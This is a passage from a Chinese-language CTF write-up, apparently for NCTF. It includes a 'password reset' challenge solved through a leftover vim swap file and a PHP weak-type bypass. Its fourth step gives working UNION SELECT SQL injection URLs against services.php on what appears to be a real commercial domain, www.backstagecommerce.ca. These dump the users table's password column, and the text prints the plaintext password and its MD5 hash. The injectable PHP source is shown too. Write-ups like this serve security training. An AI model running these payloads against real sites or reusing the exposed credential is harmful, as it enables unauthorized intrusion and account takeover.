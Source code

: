 
看见没password字段 我们想要的东西在里面 下一步把值给爆出来吧！！！
**4. 第四步**
这一步 我们要爆他的密码

```bash
http://www.backstagecommerce.ca/services.php?id=-9 union select 1,2,3,4,5,6,7,8,9,10,11,(select password from  users),13,14,15,16,17,18,19#
也可以这样
http://www.backstagecommerce.ca/services.php?id=-9 union select 1,2,3,4,5,6,7,8,9,10,11,(password),13,14,15,16,17,18,19 from  users#
```


密码就在上图BSCmarketing24
然后再md5加密成 f3d6cc916d0739d853e50bc92911dddb
flag: nctf{f3d6cc916d0739d853e50bc92911dddb}

* * *

## **33.密码重置2（500）**

TIPS:
1.管理员邮箱观察一下就可以找到
2.linux下一般使用vi编辑器，并且异常退出会留下备份文件
3.弱类型bypass

根据源码发现了邮箱

admin@nuptzj.cn
tip2:[上网搜了vi编辑器异常退出留下备份文件名](http://www.cnblogs.com/DMDD/p/5052048.html)

直接打开.submit.php.swp文件如下

```php
源码如下
........这一行是省略的代码........

/*
如果登录邮箱地址不是管理员则 die()
数据库结构

--
-- 表的结构 `user`
--

CREATE TABLE IF NOT EXISTS `user` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL,
  `email` varchar(255) NOT NULL,
  `token` int(255) NOT NULL DEFAULT '0',
  PRIMARY KEY (`id`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=2 ;

--
-- 转存表中的数据 `user`
--

INSERT INTO `user` (`id`, `username`, `email`, `token`) VALUES
(1, '****不可见***', '***不可见***', 0);
*/

........这一行是省略的代码........

if(!empty($token)&&!empty($emailAddress)){
    if(strlen($token)!=10) die('fail');
    if($token!='0') die('fail');
    $sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
```